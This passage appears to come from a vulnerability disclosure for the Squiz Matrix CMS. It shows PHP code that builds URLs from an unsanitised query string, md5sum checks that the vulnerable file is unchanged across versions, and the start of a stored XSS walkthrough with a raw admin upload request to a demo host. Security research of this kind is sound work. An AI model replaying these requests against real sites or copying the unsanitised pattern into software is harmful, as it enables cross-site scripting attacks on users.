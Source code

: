 ```php

        // make up original page url
        $param_string = $_SERVER['QUERY_STRING'];
        if(!empty($param_string)) {
            $param_string = '?'.$param_string;
        }

        $timing_url = $primary_url.'/_performance_timing'.$param_string;
        
        // make up result page url
        $result_url = $primary_url.'/_performance_result'.$param_string;

        ...

```

In order to ensure that the vulnerability is present in the latest version of the CMS we can use the tool md5sum.

```
▶ cat performance_manager.inc_v5.6.0 | md5sum 
29874d73ff7b7250d88735d6fb03d1f0  -
▶ cat performance_manager.inc_v5.6.3 | md5sum
29874d73ff7b7250d88735d6fb03d1f0  -
```

# Stored XSS

This vulnerability is more critical than the previous one, however its exploitation is difficult because it requires an account to add a file via the management interface.

![alt text](../captures/c15_2.png "Figure 3: Upload form")

Request:
```
POST http://matrixdemo.squiz.net/_admin/?SQ_BACKEND_PAGE=main&backend_section=am&am_section=add_asset&parent_assetid=267&pos=-1&type_code=file&link_type=1&asset_ei_screen=details&sq_link_path=&sq_asset_path= HTTP/1.1
Host: matrixdemo.squiz.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
```